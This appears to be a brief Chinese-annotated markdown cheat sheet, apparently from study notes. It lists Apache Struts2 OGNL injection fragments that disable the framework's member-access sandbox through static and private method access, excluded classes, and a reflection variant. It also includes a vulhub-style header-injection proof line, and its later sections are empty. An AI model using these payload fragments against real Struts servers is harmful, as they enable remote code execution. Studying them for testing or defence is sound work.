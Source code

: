 <!-- Created by Frank -->
# Classification

## 权限语句 (possible)
* #_memberAccess.allowStaticMethodAccess=true
* 使用反射(新版)  
  #f=#_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),#f.setAccessible(true),#f.set(#_memberAccess,true)
* #context["xwork.MethodAccessor.denyMethodExecution"]=false
* #_memberAccess.excludeProperties=@java.util.Collections@EMPTY_SET  
  设置外部拦截器为空
* #_memberAccess['allowPrivateAccess']=true
* #_memberAccess['allowProtectedAccess']=true
* #_memberAccess['excludedPackageNamePatterns']=#_memberAccess['acceptProperties']
* #_memberAccess['excludedClasses']=#_memberAccess['acceptProperties']
* #_memberAccess['allowPackageProtectedAccess']=true
* #_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS
* #context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)

## 1. 包名

## 2. 包名 + 类名

## 3. 其他